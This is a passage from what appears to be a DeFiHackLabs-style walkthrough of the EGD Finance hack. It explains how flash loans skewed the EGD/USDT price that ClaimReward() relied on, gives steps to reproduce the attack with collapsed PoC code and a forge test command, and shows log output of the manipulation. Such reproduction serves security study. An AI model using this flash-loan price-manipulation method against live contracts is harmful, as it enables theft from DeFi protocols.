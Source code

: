 
Conclusion: Attacker used a flash loan to alter the liquidity of the EGD/USDT trading pair, resulting in ClaimReward() getting an incorrect price, allowing the attacker to obtain an obscene amount of EGD token.

Finally, the attacker exchanged EGD Token using Pancakeswap for USDT, thus profiting from the attack.


---

Now that we’ve fully understood the attack, lets reproduce it:

Step4. Write the PoC code for the attack

Click to show code

Step5. Write the PoC code for the second flash loan using the exploit

Click to show code

Execute the code with forge test --contracts ./src/test/EGD-Finance.exp.sol -vvv. Pay attention to the change in balances.

[DeFiHackLabs - EGD-Finance.exp.sol](https://github.com/finn79426/DeFiHackLabs/blob/main/src/test/EGD-Finance.exp.sol)

Running 1 test for src/test/EGD-Finance.exp.sol:Attacker

[PASS] testExploit() (gas: 537204)

Logs:

  --------------------  Pre-work, stake 10 USDT to EGD Finance --------------------

  Tx: 0x4a66d01a017158ff38d6a88db98ba78435c606be57ca6df36033db4d9514f9f8

  Attacker Stake 10 USDT to EGD Finance

  -------------------------------- Start Exploit ----------------------------------

  [Start] Attacker USDT Balance: 0.000000000000000000

  [INFO] EGD/USDT Price before price manipulation: 0.008096310933284567

  [INFO] Current earned reward (EGD token): 0.000341874999999972

  Attacker manipulating price oracle of EGD Finance...

  Flashloan[1] : borrow 2,000 USDT from USDT/WBNB LPPool reserve

  Flashloan[1] received

  Flashloan[2] : borrow 99.99999925% USDT of EGD/USDT LPPool reserve

  Flashloan[2] received

  [INFO] EGD/USDT Price after price manipulation: 0.000000000060722331

  Claim all EGD Token reward from EGD Finance contract

  [INFO] Get reward (EGD token): 5630136.300267721935770000

  Flashloan[2] payback success
